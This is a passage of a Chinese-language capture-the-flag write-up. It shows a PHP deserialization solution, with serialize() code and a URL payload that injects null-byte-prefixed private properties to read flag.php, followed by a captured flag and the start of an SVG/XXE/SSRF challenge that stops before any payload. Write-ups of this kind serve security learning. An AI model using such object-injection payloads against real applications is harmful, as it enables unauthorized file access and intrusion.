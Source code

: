 那么我们只需要给 `$args` 赋一个数组就行了；

```
'''
  题目源码
'''

$pop = new home('mysys',array('flag.php'));
echo serialize($pop);
```

得到 `O:4:"home":2:{s:12:" home method";s:5:"mysys";s:10:" home args";a:1:{i:0;s:8:"flag.php";}}` 注入private对象加个%00就行。

payload:

```
?path=O:4:"home":2:{s:12:"%00home%00method";s:5:"mysys";s:10:"%00home%00args";a:1:{i:0;s:8:"flag.php";}}
```

flag{j4nc920fm8b2z0r2mc7dsf87s6785a675sa776vd}

 

 

 

### 简单域渗透-flag1

考点：CVE-2020-7961 Liferay Portal 反序列化

请移步本站：[CVE-2020-7961 Liferay Portal 反序列化-复现](http://wh1sper.com/cve-2020-7961liferay-portal-反序列化-复现/)

 

 

 

### svgggggg!

考点：XXE盲打，SSRF，sqli写shell

打开题目，叫我们给一个URL，然后check这个URL指向的file是不是svg图片

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171235.png)

#### 什么是SVG？

- SVG 指可伸缩矢量图形 (Scalable Vector Graphics)
- SVG 用来定义用于网络的基于矢量的图形
- SVG 使用 XML 格式定义图形
- SVG 图像在放大或改变尺寸的情况下其图形质量不会有所损失
- SVG 是万维网联盟的标准
- SVG 与诸如 DOM 和 XSL 之类的 W3C 标准是一个整体

由于SVG是基于XML的矢量图，因此可以支持Entity（实体）功能。

我们自然而然地想到了XXE。
